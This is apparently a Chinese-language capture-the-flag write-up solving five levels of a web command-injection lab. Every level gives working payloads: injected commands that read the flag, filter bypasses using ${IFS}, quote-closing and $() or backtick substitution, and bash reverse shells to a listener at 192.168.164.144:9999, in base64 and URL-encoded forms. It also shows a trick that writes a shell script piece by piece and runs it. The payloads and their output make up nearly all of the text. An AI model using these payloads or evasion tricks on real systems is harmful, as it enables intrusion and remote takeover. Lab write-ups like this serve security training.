

# 第1关
## 简单命令注入
```shell
baidu.com;ls
baidu.com;id
baidu.com;cat flag
```

## 反弹shell
通过base64编码进行注入
```shell
baidu.com;bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'
```
具体实现步骤：
1. 监听端（kali）开启监听端口，使用nc工具（kali自带）
```shell
nc -lvvp 9999
```
2. 查看监听端ip
```
ifconfig
```
3. 反弹shell指令编码成base64
注意填充ip和监听端口
```shell
bash -i >& /dev/tcp/$ip/$port 0>&1
```
之后可以用python3进行base64编码,大概如下：
```python
import base64
#python3字符串前要加b，python2不用
str_to_encode = b"bash -i >& /dev/tcp/192.168.144.149/9999 0>&1"
encoded_str = base64.b64encode(str_to_encode)
print(encoded_str)
```

# 第2关
过滤了空格
空格可以用以下字符代替：
`< 、<>、%20(即space)、%09(即tab)、$IFS$9、 ${IFS}、$IFS`等

`$IFS`在linux下表示分隔符，但是如果单纯的`cat$IFS2`，`bash`解释器会把整个`IFS2`当做变量名，所以导致输不出来结果，因此这里加一个`{}`就固定了变量名。
同理，在后面加个$可以起到截断的作用，使用`$9`是因为它是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
## 简单注入
```shell
baidu.com;cat${IFS}flag
baidu.com;cat<>flag
```

## 反弹shell
用`${IFS}`替代空格即可
```
baidu.com;bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'
```

# 第3关
双引号包裹了输入,可以将双引号闭合
## 简单注入
```shell
";cat flag;#
";cat flag;"
```
最后加一个#号，将后面的双引号注释掉。也可以接一个双引号将后面的双引号闭合掉


## 反弹shell
试试直接发反弹shell，payload如下：
```shell
";bash -i >& /dev/tcp/192.168.164.144/9999 0>&1;"
```
显示`/bin/sh: 1: Syntax error: Unterminated quoted string`
ctrl+shift+i 打卡浏览器控制台，点击网络，查看/third的包，发现负载如下：
```
inputip: ";bash -i >
```
由于&的缘故，输入没有完全发出，将上面的payload进行url编码
```
%22%3Bbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.164.144%2F9999%200%3E%261%3B%22
```
payload被正常发出，但还是报错
```
ping: : Name or service not known
/bin/sh: 1: Syntax error: Bad fd number
```
注意到
```
bash -i >& /dev/tcp/192.168.164.144/9999 0>&1
```
注意，在有引号和没有引号的执行结果是不一样的————
```shell
$ "bash -i >& /dev/tcp/192.168.164.144/9999 0>&1"
-bash: bash -i >& /dev/tcp/192.168.164.144/9999 0>&1: No such file or directory
$ bash -i >& /dev/tcp/192.168.164.144/9999 0>&1
-bash: connect: Connection refused
-bash: /dev/tcp/192.168.164.144/9999: Connection refused
#监听端并未开启监听，但从回显来看，该命令是执行成功了
```

试试以下payload
```shell
";bash -c 'bash -i >& /dev/tcp/192.168.164.144/9999 0>&1';#
";bash -c 'bash -i >& /dev/tcp/192.168.164.144/9999 0>&1';"
```

> `bash -c`是bash shell的一个选项，它允许在命令行上指定一个字符串作为命令，而不是从文件中读取命令。这个选项通常用于在shell脚本中执行命令字符串。例如，在第1关的反弹shell中，我们使用了bash -c来执行base64解码后的反弹shell命令字符串。具体来说，bash -c后面跟着的是要执行的命令字符串，用单引号或双引号括起来。如果使用单引号，则字符串中的变量和命令替换将不会被扩展，而如果使用双引号，则会被扩展。

第一条payload进行urlencode编码。
```
%22%3Bbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.164.144%2F9999%200%3E%261%27%3B%23
```
设置监听
```shell
nc -lvvp 9999
```
请求发送后，可以看到监听成功


# 第4关
用单引号包裹了输入。与双引号相比，字符串中的变量和命令替换将不会被扩展，而如果是使用双引号，则会被扩展。如下：

但同样的，只要没有过滤单引号，就可以闭合
# 简单注入
```
';cat flag;'
```

## 反弹shell
payload，只需要将&进行urlencode即可。
```
';bash -c "bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261";'
```

# 第5关
过滤双引号和单引号，同时用双引号包裹输入。这就没办法用闭合的方式进行注入了。但是双引号是可以扩展的。
## 简单注入
```
$(cat flag)
`cat flag`
```
注意，curl的host参数不能含有空格，否则会报错：`contains bad letter`。以`cat flag`为例，可以用`<>`绕过，但是由于输入被双引号包裹了，所以最终是注入不成功的。而使用反引号(`)和dollar符（$）之所以能成功，是因为被它们包裹或引用的命令是先执行的，之后返回的结果作为curl的host参数。

## 反弹shell
几个测试失败的payload
```shell
#忘了引号都被过滤了
$(bash -c 'bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261')
#/bin/sh: 1: Syntax error: Bad fd number
#curl: (3) <url> malformed

`bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261`
#/bin/sh: 1: Syntax error: Bad fd number
#curl: (3) <url> malformed

{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

```

想过在攻击端起一个http服务器，让被攻击端去下载一个含有反弹shell指令的shell文件，但发现curl无法设置参数来下载文件，于是不可行。
只能通过在web服务器创建一个含有反弹shell的脚本了
直接发以下payload是没法创建的
```shell
$(echo bash -i >%26 /dev/tcp/192.168.164.144/9999 0>%261 > a)
```
先一段一段来了，
```shell
$(echo -n bash -i\ >> a)
$(echo -n \> >> a)
$(echo -n \%26 >> a)
$(echo -n \ /dev/tcp/192.168.164.144/9999 >> a)
$(echo -n \ 0\>\%261 >> a)
```
当输入没有限制长度时，可以直接发送以下payload
```shell
$(echo -n bash -i\ \>\%26\ /dev/tcp/192.168.164.144/9999\ 0\>\%261 >> b)
```

之后就执行a即可
```shell
$(/bin/bash ./a)
```
a有可能是没有执行权限的可以先给与它权限
```shell
chmod +x a
```


# 参考

https://blog.csdn.net/Manuffer/article/details/120672448